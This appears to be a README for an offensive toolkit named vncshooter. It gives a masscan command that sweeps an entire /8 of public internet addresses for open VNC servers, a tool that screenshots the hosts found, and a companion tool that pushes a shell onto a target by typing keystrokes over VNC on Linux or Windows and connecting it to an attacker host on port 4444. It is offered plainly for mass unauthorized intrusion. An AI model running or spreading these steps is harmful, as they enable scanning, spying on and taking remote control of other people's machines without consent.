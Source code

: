 # vncshooter

use masscan to gather vnc hosts


    sudo masscan -p5900 85.0.0.0/8 --resume paused.conf --rate 10000 >> 85.output
    
    
    
use vncshooter to take screens
    
    
    ./vncshooter 85.output



use vncshitter to deploy shell


    Usage: ./vncshitter --rhost=x.x.x.x [--rport=5900] [--lhost=x.x.x.x] [--rport=4444] [--platform=linux-gui]

    [rhost] = Remote ip (required)
    [rport] = Remote port (default: 5900)
    [lhost] = Local host to bind default shell to (default: your external ip)
    [lport] = Local port to bind default shell to (default: 4444)
    [platform] = (default: linux-gui)
                 linux-gui: will work on default ubuntu etc (using alt+ctrl+t -> terminal -> payload)
                 win: will work on win7+ (using windows_key+r -> run -> cmd -> payload)
